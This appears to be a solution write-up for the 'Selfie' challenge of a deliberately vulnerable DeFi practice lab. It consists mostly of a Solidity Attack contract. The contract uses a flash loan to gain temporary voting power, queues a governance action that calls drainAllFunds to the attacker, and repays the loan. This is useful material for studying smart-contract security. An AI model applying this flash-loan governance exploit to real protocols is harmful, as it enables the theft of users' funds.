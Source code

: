 # Challenge #6 - Selfie

A new cool lending pool has launched! It's now offering flash loans of DVT tokens.

Wow, and it even includes a really fancy governance mechanism to control it.

What could go wrong, right ?

You start with no DVT tokens in balance, and the pool has 1.5 million. Your objective: take them all.

# Solution

```
contract Attack {
    SelfiePool public selfiePool;
    SimpleGovernance public simpleGovernance;
    DamnValuableTokenSnapshot public damnValuableTokenSnapshot;
    uint256 private actionId;
    address private attacker;

    constructor(
        address _selfiePool,
        address _simpleGovernance,
        address _damnValuableTokenSnapshot,
        address _attacker
    ) {
        selfiePool = SelfiePool(_selfiePool);
        simpleGovernance = SimpleGovernance(_simpleGovernance);
        damnValuableTokenSnapshot = DamnValuableTokenSnapshot(
            _damnValuableTokenSnapshot
        );
        attacker = _attacker;
    }

    function attack() public {
        //Get some gorvernance tokens in order to be able to call queueAction func
        damnValuableTokenSnapshot.snapshot();
        selfiePool.flashLoan(
            ((damnValuableTokenSnapshot.getTotalSupplyAtLastSnapshot() * 6) /
                10)
        );
        // rest of logic in fallback function
    }

    function finishAttack() public {
        //call this function using "evm_increaseTime" by 2 days in order to be able to call
        //executeAction
        simpleGovernance.executeAction(actionId);
    }

    fallback() external payable {
        // console.log(damnValuableTokenSnapshot.balanceOf(address(this)));
        damnValuableTokenSnapshot.snapshot();

        //call queue action with drainAllFunds function  and attack contract address as arg
        actionId = simpleGovernance.queueAction(
            address(selfiePool),
            abi.encodeWithSignature("drainAllFunds(address)", attacker),
            0
        );

        //transfer back tokens to pool in order to avoid "not paid back" error
        damnValuableTokenSnapshot.transfer(
            msg.sender,
            damnValuableTokenSnapshot.balanceOf(address(this))
        );
    }
}
```
